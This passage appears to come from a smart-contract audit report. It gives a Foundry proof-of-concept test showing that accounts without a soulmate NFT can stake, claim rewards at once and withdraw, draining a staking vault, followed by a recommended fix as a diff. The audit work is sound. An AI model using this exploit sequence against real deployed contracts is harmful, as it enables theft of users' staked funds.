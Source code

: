 ```javascript
    uint256 userTokenBalanceBeforeRewardsClaim = loveToken.balanceOf(random);

    // using an account that doesn't hold NFT, but holds ERC20 tokens, the attacker can stake ERC20 tokens and then claim much more rewards even if they didn't stake tokens for at least one week
    vm.startPrank(random);
    loveToken.approve(address(stakingContract), amountToStake);
    stakingContract.deposit(amountToStake);
    assertEq(stakingContract.userStakes(random), amountToStake);
    stakingContract.claimRewards();
    stakingContract.withdraw(amountToStake);
    vm.stopPrank();

    uint256 stakingVaultTokenBalanceAfterRewardsClaim = loveToken.balanceOf(address(stakingVault));
    uint256 userTokenBalanceAfterRewardsClaim = loveToken.balanceOf(random);

    assertGt(userTokenBalanceAfterRewardsClaim, userTokenBalanceBeforeRewardsClaim);
    assertEq(stakingVaultTokenBalanceAfterRewardsClaim, stakingVaultTokenBalanceBeforeRewardsClaim - (userTokenBalanceAfterRewardsClaim - amountToStake));
}
```

Run a test with `forge test --mt test_usersWithoutSoulmatesCanClaimMoreRewardsWithoutStakingLongEnough`.

## Tools Used

- Manual review
- Foundry

## Recommendations

Revert the transaction if the sender doesn't have a soulmate.

Recommended changes to the `Staking.sol::claimRewards()` function:

```diff
/*//////////////////////////////////////////////////////////////
                                ERRORS
//////////////////////////////////////////////////////////////*/
error Staking__NoMoreRewards();
error Staking__StakingPeriodTooShort();
+error Staking__UsersWithoutSoulmateCannotClaimRewards();

function claimRewards() public {
+    if (soulmateContract.soulmateOf(msg.sender) == address(0)) {
+        revert Staking__UsersWithoutSoulmateCannotClaimRewards();
+    }

    uint256 soulmateId = soulmateContract.ownerToId(msg.sender);
    // first claim
    if (lastClaim[msg.sender] == 0) {
        lastClaim[msg.sender] = soulmateContract.idToCreationTimestamp(
            soulmateId
        );
    }

    // How many weeks passed since the last claim.
    // Thanks to round-down division, it will be the lower amount possible until a week has completly pass.
    uint256 timeInWeeksSinceLastClaim = ((block.timestamp -
        lastClaim[msg.sender]) / 1 weeks);

    if (timeInWeeksSinceLastClaim < 1)
        revert Staking__StakingPeriodTooShort();
```